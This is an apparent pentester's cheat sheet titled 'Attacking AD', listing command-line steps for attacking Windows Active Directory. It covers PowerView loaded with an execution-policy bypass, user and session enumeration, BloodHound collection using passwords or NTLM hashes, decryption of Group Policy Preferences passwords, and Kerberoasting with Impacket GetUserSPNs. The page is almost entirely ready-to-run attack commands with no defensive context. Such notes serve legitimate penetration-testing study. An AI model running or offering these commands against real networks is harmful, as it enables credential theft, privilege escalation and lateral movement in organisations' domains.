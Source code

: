 # Attacking AD

## PowerView

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon" %}

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

```powershell
powershell.exe -nop -exec bypass
Import-Module .\PowerView.ps1
Get-NetLoggedon -ComputerName "name"
Get-NetSession -ComputerName "DC"
```

[https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)&#x20;

## User Enum

```
net user
net user /domain # enum all users in entire domain
net group /domain
```

## Bloodhound

{% embed url="https://github.com/fox-it/BloodHound.py" %}

You can use the python script in replacement of executing sharphound. Run `neo4j console` and `bloodhound`. Drag and drop the `.json` files to bloodhound, then mark a user/users you've compromised and use the `Analysis` tab to see where your next pivoting target is

### w/ hash

```python
python3 bloodhound.py -ns nameserver/dc ip 10.11.1.20 -d domain.local -u Administrator --hashes ntlm -c All
```

### w/ password

```python
python3 bloodhound.py -ns <DC IP> -d <domain> -dc <DC hostname> -u <username> -p <password> -c All
```

## Decrypting GPP Password

```
gpp-decrypt asdlkfjOLKAjlksdf/DLkjslkjf;lkj234lkasd0+
```

## Impacket Stuff

```
impacket-GetUserSPNs test.local/john:password123 -dc-ip 10.10.10.1 -request
```
